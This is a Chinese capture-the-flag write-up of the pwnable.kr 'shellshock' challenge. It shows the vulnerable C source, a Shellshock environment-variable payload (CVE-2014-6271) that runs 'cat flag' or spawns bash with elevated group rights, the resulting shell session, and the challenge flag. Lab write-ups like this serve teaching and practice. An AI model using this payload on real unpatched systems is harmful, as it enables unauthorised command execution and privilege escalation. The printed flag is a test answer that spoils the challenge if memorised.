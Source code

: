 ```yaml
---
id: 56
title: pwnable.kr-shellshock
date: 2016-07-25T14:08:18+00:00
author: admin
layout: post
guid: http://www.ikow.cn/?p=56
permalink: /pwnable-kr-shellshock/
categories:
  - pwn
tags:
  - bash
  - payload
  - pwn
  - pwnable.kr
  - shellshock
---
```

题目描述：

> Mommy, there was a shocking news about bash.
  
> I bet you already know, but lets just make it sure 🙂
  
> ssh shellshock@pwnable.kr -p2222 (pw:guest)

shellshock.c的源码为：

<pre class="brush: cpp; title: ; notranslate" title="">#include &lt;stdio.h&gt;
int main(){
	setresuid(getegid(), getegid(), getegid());
	setresgid(getegid(), getegid(), getegid());
	system("/home/shellshock/bash -c 'echo shock_me'");
	return 0;
}
</pre>

顾名思义了，这题就是需要利用shellshock漏洞来获取flag，具体的讲解参见：http://www.myhack58.com/Article/html/3/62/2015/60779.htm

所以我们构造payload：export foo='() { :; }; cat flag‘直接获取flag，或者export foo='() { :; }; bash&#8217;切换成shellshock2用户的bash，然后再执行命令获取flag：

> shellshock@ubuntu:/home/shellshock$ export foo='() { :; }; bash&#8217;
  
> shellshock@ubuntu:/home/shellshock$ ./shellshock
  
> shellshock@ubuntu:/home/shellshock$
  
> shellshock@ubuntu:/home/shellshock$
  
> shellshock@ubuntu:/home/shellshock$ cat flag
  
> only if I knew CVE-2014-6271 ten years ago..!!
  
> shellshock@ubuntu:/home/shellshock$ cat flag
  
> only if I knew CVE-2014-6271 ten years ago..!!
  
> shellshock@ubuntu:/home/shellshock$ whoami
  
> shellshock
  
> shellshock@ubuntu:/home/shellshock$ cat flag
  
> only if I knew CVE-2014-6271 ten years ago..!!
  
> shellshock@ubuntu:/home/shellshock$ id
  
> uid=1048(shellshock) gid=1049(shellshock2) groups=1048(shellshock)

最后的flag为：only if I knew CVE-2014-6271 ten years ago..!!
